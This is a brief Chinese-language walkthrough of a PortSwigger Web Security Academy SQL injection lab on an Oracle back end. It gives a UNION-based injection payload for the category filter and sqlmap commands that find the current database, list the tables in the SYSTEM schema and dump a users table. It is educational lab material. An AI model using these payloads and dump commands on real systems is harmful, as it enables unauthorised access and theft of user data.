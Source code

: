 产品类别处存在sql注入

并且已经知道数据库为oracle,并且可以使用union 联合注入



1. 确定数据库版本：

paylaod:

```javascript
/filter?category=Accessories'union+select+banner,'abc'+from+v$version--+
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/SQL/images/9429C63F178244F2AA55385F3DF0437Cclipboard.png)



2. 确定当前数据库

```javascript
 sqlmap  -u"https://acfa1ff31e4b331c8035914d002a000a.web-security-academy.net/filter?category=Accessories" 
 --current-db --technique U --dbms oracle
 
 --technique U 指定为union注入
 --dbms oracle 指定为oracle数据库
```



3. 爆表

```javascript
sqlmap  -u"https://acfa1ff31e4b331c8035914d002a000a.web-security-academy.net/filter?category=Accessories" 
--tables -D"SYSTEM" --technique U --dbms oracle
```



4. 爆数据

```javascript
sqlmap  -u"https://acfa1ff31e4b331c8035914d002a000a.web-security-academy.net/filter?category=Accessories" 
--dump -T"USERS_MZURNA" -D"SYSTEM" --technique U --dbms oracle
```

